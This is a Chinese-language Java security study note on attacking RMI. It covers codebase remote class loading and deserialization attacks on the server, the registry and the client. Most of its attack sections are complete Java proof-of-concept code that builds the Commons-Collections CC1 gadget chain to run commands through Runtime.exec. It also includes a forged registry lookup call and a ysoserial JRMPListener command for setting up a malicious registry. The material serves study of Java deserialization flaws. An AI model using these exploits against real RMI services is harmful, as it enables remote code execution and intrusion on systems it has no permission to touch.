

# RMI攻击利用
[RMI](RMI.md)

## 调用远程的恶意方法

在server端存在恶意方法的时候，且在registry中进行了注册，就可以直接调用攻击

list方法列出远程对象

String[] s = Naming.list("rmi://192.168.1.100:1099");

探测工具

[https://github.com/NickstaDB/BaRMIe](https://github.com/NickstaDB/BaRMIe)

## codebase执行任意代码

实现条件比较苛刻在P牛的Java安全漫谈 - 05.RMI篇(2)中有详细的复现及原理

codebase是一种与Classpath相似的概念，Classpath是一个系统中的环境变量，分为指向目录和指向.jar压缩文件两种,.jar压缩文件中包含搜需要的.class文件

JVM在加载类的时候的查找类文件的方式：Classpath+包目录+类文件

这是否联想到了IDEA中的软件包，事实上调用jar包就是这样的加载

那么如果这个类不在这个目录中，同时也不在任何一个其它classpath中呢，虚拟机会抛出一个`ClassNotFoundException`。



Classpath的指定

命令行状态下的classpath可以通过两种方式设置：

- 一种是直接设置环境变量，命令行下使用set命令：`set CLASSPATH＝C:/work/classes;C:/work/util.jar`
- 另一种方式是在执行javac、java或者其它Java命令时直接指定classpath：`java -classpath [-cp] c:/work/classes;c:/work/util.jar com.company.util.Sample`

codebase就是与Classbase相似的一种查找类的方式，但是codebase是远程路径

如果我们指定 codebase=http://example.com/ ，然后加载 org.vulhub.example.Example 类，则
Java虚拟机会下载这个文件 http://example.com/org/vulhub/example/Example.class ，并作为
Example类的字节码。

codebase的指定

- 命令行

```java
java -Djava.rmi.server.codebase=http://url:8080/
#或者
java -Djava.rmi.server.codebase=http://url:8080/xxx.jar
```

- 在代码中设置

```java
System.setProperty("java.rmi.server.codebase", "http://url:8080/");
```

**利用条件**

- 由于`Java SecurityManager`的限制，默认是不允许远程加载的，如果需要进行远程加载类，需要启动`RMISecurityManager`并且配置`java.security.policy`。
- 属性 `java.rmi.server.useCodebaseOnly` 的值必需为`false`。但是从JDK 6u45、7u21开始，`java.rmi.server.useCodebaseOnly` 的默认值就是`true`。当该值为`true`时，将禁用自动加载远程类文件，仅从CLASSPATH和**当前虚拟机**的`java.rmi.server.codebase`指定路径加载类文件，不再支持从RMI请求中获取codebase。增加了RMI ClassLoader的安全性。

## RMI动态类加载

动态类加载：在JVM中没有某个类的定义的时候，可以去远程的URL去下载这个类的class，动态加载的.class文件可以使用`http://`、`ftp://`、`file://`进行托管

对于RMI客户端而言，如果服务端方法的返回值可能是一些子类的对象实例，而客户端并没有这些子类的class文件，如果需要客户端正确调用这些子类中被重写的方法，客户端就需要从服务端提供的`java.rmi.server.codebase`中去加载类

对于RMI服务端而言，如果客户端传递的方法参数是远程对象接口方法参数类型的子类，那么服务端需要从客户端提供的`java.rmi.server.codebase`中去加载对应的类。因此客户端与服务端两边的`java.rmi.server.codebase`在RMI通信过程中都是互相传递的。

## RMI反序列化攻击

不管是Client，Server还是Registry，当需要操作远程对象的时候，就势必会涉及到序列化和反序列化，假如某一端调用了重写的`readObject()`方法，那么我们就可以进行反序列化攻击了。

RMI的五种交互方式：

- bind →用来在Registry上绑定一个远程对象，`rebind`方法和`bind`方法类似
- list →用来列出Registry上绑定的远程对象
- lookup → 用于获取Registry上的一个远程对象
- rebind → 用于解绑一个远程对象
- unbind

<aside>
💡 `bind`和`rebind`方法中都含有`readObject()`方法。如果服务端调用了`bind`和`rebind`方法，并且安装了存在反序列化漏洞的相关组件，那么这时候我们就可以进行反序列化攻击
`lookup`和`unbind`都含有`readObject()`，不过必须为`String`类，这里我们不能直接利用，可以伪造连接请求进行利用。

</aside>

### 攻击Server端

攻击原理是Server端调用的远程方法中存在Object类，使Client端发送一个恶意的对象，由于Server端在接收时的反序列化，只要Server端有相关的漏洞组件，就可以进行利用

这里贴一下别人的实验代码，以`commons-collections3.2.1`为例

ICalc.java

```java
package learn.rmi.serialize;
 
import java.rmi.Remote;
import java.rmi.RemoteException;
import java.util.List;
 
 
public interface ICalc extends Remote {
 
    //这使用List类做参数是方便我们传递恶意对象
    public Integer sum(List<Integer> lists) throws RemoteException;
    
    //带有Object类参数的远程对象
    public Object RMI_Serialize(Object o) throws Exception;
}
```

RMIServer.java

```java
package learn.rmi.serialize;
 
import java.rmi.Naming;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.server.UnicastRemoteObject;
import java.util.List;
 
public class RMIServer {
 
    public class RMICalc extends UnicastRemoteObject implements ICalc {
        protected RMICalc() throws RemoteException{
            super();
        }
 
        @Override
        public Integer sum(List<Integer> lists) throws RemoteException {
            Integer result=0;
            for (Integer list : lists){
                result+=list;
            }
            return result;
        }
 
        @Override
        public Object RMI_Serialize(Object o) throws Exception {
            System.out.println("success");
            return o;
        }
    }
 
    private void register() throws Exception{
 
        RMICalc rmiCalc=new RMICalc();
        LocateRegistry.createRegistry(1099);
        Naming.bind("rmi://127.0.0.1:1099/calc",rmiCalc);
        System.out.println("Registry运行中......");
    }
 
    public static void main(String[] args) throws Exception {
        new RMIServer().register();
    }
}
```

RMIClient.java

```java
package learn.rmi.serialize;
 
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
 
import java.io.Serializable;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.rmi.Naming;
import java.util.HashMap;
import java.util.Map;
 
public class RMIClient implements Serializable {
 
    public void lookup() throws Exception{
 
        //查找绑定对象
        String rmi = "rmi://192.168.1.104:1099/";
        String[] bindeds=Naming.list(rmi);
        for(String binded:bindeds){
            System.out.println(binded);
        }
 
        ICalc iCalc = (ICalc) Naming.lookup("rmi://192.168.1.104:1099/calc");
        iCalc.RMI_Serialize(Exploit());
    }
 
    //恶意对象CC1
    public static Object Exploit() throws Exception{
 
        Transformer[] transformers=new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
 
        ChainedTransformer chainedTransformer=new ChainedTransformer(transformers);
 
 
        HashMap<Object,Object> map=new HashMap<>();
        map.put("value","value");
        Map<Object,Object> transformedMap= TransformedMap.decorate(map,null,chainedTransformer);
//        for (Map.Entry entry: transformedMap.entrySet()){
//            entry.setValue(Runtime.getRuntime());
//        }
 
 
        Class c=Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor AnnotationInvocationHandlerConstructor=c.getDeclaredConstructor(Class.class,Map.class);
        AnnotationInvocationHandlerConstructor.setAccessible(true);
        Object o=AnnotationInvocationHandlerConstructor.newInstance(Target.class,transformedMap);
        return o;
    }
 
    public static void main(String[] args) throws Exception{
        new RMIClient().lookup();
    }
 
}
```

### 攻击Registry

一般Registry和Server是绑定在一起的，攻击Registry其实是攻击与Registry交互的几种方法。当Server的RegistryImpl_Skel对象调用了相应方法时，就有可能被攻击

****调用bind&rebind****

Server

```java
package learn.rmi.serialize;
 
import java.io.Serializable;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.UnicastRemoteObject;
import java.util.List;
 
public class RMIServer {
 
    public class RMICalc extends UnicastRemoteObject implements ICalc, Serializable {
        protected RMICalc() throws RemoteException{
            super();
        }
 
        @Override
        public Integer sum(List<Integer> lists) throws RemoteException {
            Integer result=0;
            for (Integer list : lists){
                result+=list;
            }
            return result;
        }
 
        @Override
        public Object RMI_Serialize(Object o) throws Exception {
            System.out.println("success");
            return o;
        }
    }
 
    private void register() throws Exception{
 
        RMICalc rmiCalc=new RMICalc();
        Registry registry = LocateRegistry.createRegistry(1099);
        registry.bind("rmi://127.0.0.1:1099/calc",rmiCalc);
        System.out.println("Registry运行中......");
    }
 
    public static void main(String[] args) throws Exception {
        new RMIServer().register();
    }
}
```

Client

```java
package learn.rmi.serialize;
 
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
 
import java.io.Serializable;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;
 
public class RMIClient implements Serializable {
 
    public void lookup() throws Exception{
 
 
        String rmi = "192.168.1.102";
        Integer port=1099;
 
        Registry registry = LocateRegistry.getRegistry(rmi,port);
        registry.bind("ser", (Remote) Exploit());
    }
 
    //恶意对象CC1
    public static Object Exploit() throws Exception{
 
        Transformer[] transformers=new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
 
        ChainedTransformer chainedTransformer=new ChainedTransformer(transformers);
 
 
        HashMap<Object,Object> map=new HashMap<>();
        map.put("value","value");
        Map<Object,Object> transformedMap= TransformedMap.decorate(map,null,chainedTransformer);
 
 
        Class c=Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor AnnotationInvocationHandlerConstructor=c.getDeclaredConstructor(Class.class,Map.class);
        AnnotationInvocationHandlerConstructor.setAccessible(true);
        InvocationHandler o=(InvocationHandler)AnnotationInvocationHandlerConstructor.newInstance(Target.class,transformedMap);
        Remote r = Remote.class.cast(Proxy.newProxyInstance(
                Remote.class.getClassLoader(),
                new Class[] { Remote.class }, o));
        return r;
    }
 
    public static void main(String[] args) throws Exception{
        new RMIClient().lookup();
    }
 
}
```

****调用lookup&unbind****

Server不变

Client

```java
package learn.rmi.serialize;
 
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import sun.rmi.server.UnicastRef;
 
import java.io.ObjectOutput;
import java.io.Serializable;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.Operation;
import java.rmi.server.RemoteCall;
import java.rmi.server.RemoteObject;
import java.util.HashMap;
import java.util.Map;
 
public class RMIClient2 implements Serializable {
 
    public void lookup() throws Exception{
 
        //获取Registry
        String rmi = "192.168.1.102";
        Integer port=1099;
        Registry registry = LocateRegistry.getRegistry(rmi,port);
 
        // 获取ref
        Field[] fields_0 = registry.getClass().getSuperclass().getSuperclass().getDeclaredFields();
        fields_0[0].setAccessible(true);
        UnicastRef ref = (UnicastRef) fields_0[0].get(registry);
 
        //获取operations
 
        Field[] fields_1 = registry.getClass().getDeclaredFields();
        fields_1[0].setAccessible(true);
        Operation[] operations = (Operation[]) fields_1[0].get(registry);
 
        // 伪造lookup的代码，去伪造传输信息
        RemoteCall var2 = ref.newCall((RemoteObject) registry, operations, 2, 4905912898345647071L);
        ObjectOutput var3 = var2.getOutputStream();
        var3.writeObject(Exploit());
        ref.invoke(var2);
    }
 
    //恶意对象CC1
    public static Object Exploit() throws Exception{
 
        Transformer[] transformers=new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
 
        ChainedTransformer chainedTransformer=new ChainedTransformer(transformers);
 
 
        HashMap<Object,Object> map=new HashMap<>();
        map.put("value","value");
        Map<Object,Object> transformedMap= TransformedMap.decorate(map,null,chainedTransformer);
//        for (Map.Entry entry: transformedMap.entrySet()){
//            entry.setValue(Runtime.getRuntime());
//        }
 
 
        Class c=Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor AnnotationInvocationHandlerConstructor=c.getDeclaredConstructor(Class.class,Map.class);
        AnnotationInvocationHandlerConstructor.setAccessible(true);
        InvocationHandler o=(InvocationHandler)AnnotationInvocationHandlerConstructor.newInstance(Target.class,transformedMap);
        Remote r = Remote.class.cast(Proxy.newProxyInstance(
                Remote.class.getClassLoader(),
                new Class[] { Remote.class }, o));
        return r;
    }
 
    public static void main(String[] args) throws Exception{
        new RMIClient2().lookup();
    }
 
}
```

### 攻击Client

********************************************************Server端攻击Client********************************************************

恶意Server

```java
package learn.rmi.serialize;
 
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
 
import java.io.Serializable;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.UnicastRemoteObject;
import java.util.HashMap;
import java.util.List;
import java.util.Map;
 
public class RMIServer_Client {
 
    public class RMICalc extends UnicastRemoteObject implements ICalc, Serializable {
        protected RMICalc() throws RemoteException{
            super();
        }
 
        @Override
        public Integer sum(List<Integer> lists) throws RemoteException {
            Integer result=0;
            for (Integer list : lists){
                result+=list;
            }
            return result;
        }
 
        @Override
        public Object RMI_Serialize(Object o) throws Exception {
            return null;
        }
 
        @Override
        public Object RMI_Serialize_Client() throws Exception {
            Transformer[] transformers=new Transformer[]{
                    new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                    new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                    new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
            };
 
            ChainedTransformer chainedTransformer=new ChainedTransformer(transformers);
 
 
            HashMap<Object,Object> map=new HashMap<>();
            map.put("value","value");
            Map<Object,Object> transformedMap= TransformedMap.decorate(map,null,chainedTransformer);
//        for (Map.Entry entry: transformedMap.entrySet()){
//            entry.setValue(Runtime.getRuntime());
//        }
 
 
            Class c=Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
            Constructor AnnotationInvocationHandlerConstructor=c.getDeclaredConstructor(Class.class,Map.class);
            AnnotationInvocationHandlerConstructor.setAccessible(true);
            InvocationHandler o=(InvocationHandler)AnnotationInvocationHandlerConstructor.newInstance(Target.class,transformedMap);
            return (Object) o;
        }
    }
 
    private void register() throws Exception{
 
        RMICalc rmiCalc=new RMICalc();
        Registry registry = LocateRegistry.createRegistry(1099);
        registry.bind("calc",rmiCalc);
        System.out.println("Registry运行中......");
    }
 
    public static void main(String[] args) throws Exception {
        new RMIServer_Client().register();
    }
}
```

Client

```java
package learn.rmi.serialize;
 
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
 
public class RMIClient_Client {
    public void lookup() throws Exception{
 
        String rmi = "192.168.1.10";
        Integer port=1099;
        Registry registry = LocateRegistry.getRegistry(rmi,port);
        ICalc iCalc = (ICalc) registry.lookup("calc");
        iCalc.RMI_Serialize_Client();
    }
 
    public static void main(String[] args) throws Exception{
        new RMIClient_Client().lookup();
    }
}
```

****Registry攻击Client****

搭建恶意的Registry来模拟JRMP协议通信，返回给Client一些恶意的序列化数据，那么就可以达到攻击的效果，除了`unbind`和`rebind`，剩下的三种方法都会返回序列化数据给Client，然后Client会反序列化这些数据

ysoserial工具中的JRMPListener模块

```java
//搭建恶意Registry
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1099  CommonsCollections1 'calc'
```

Client

```java
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
 
 
public class Client {
 
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.getRegistry("127.0.0.1",1099);
        registry.list();
    }
}
```

## Java安全**漫谈RMI篇**

### **Java安全漫谈 - 04.RMI篇(1)**

[Java安全漫谈 - 04.RMI篇(1).pdf](RMI攻击利用%20attachments/Java%E5%AE%89%E5%85%A8%E6%BC%AB%E8%B0%88_-_04.RMI%E7%AF%87(1).pdf)

### **Java安全漫谈 - 05.RMI篇(2)**

[Java安全漫谈 - 05.RMI篇(2).pdf](RMI攻击利用%20attachments/Java%E5%AE%89%E5%85%A8%E6%BC%AB%E8%B0%88_-_05.RMI%E7%AF%87(2).pdf)

### **Java安全漫谈 - 06.RMI篇(3)**

[Java安全漫谈 - 06.RMI篇(3).pdf](RMI攻击利用%20attachments/Java%E5%AE%89%E5%85%A8%E6%BC%AB%E8%B0%88_-_06.RMI%E7%AF%87(3).pdf)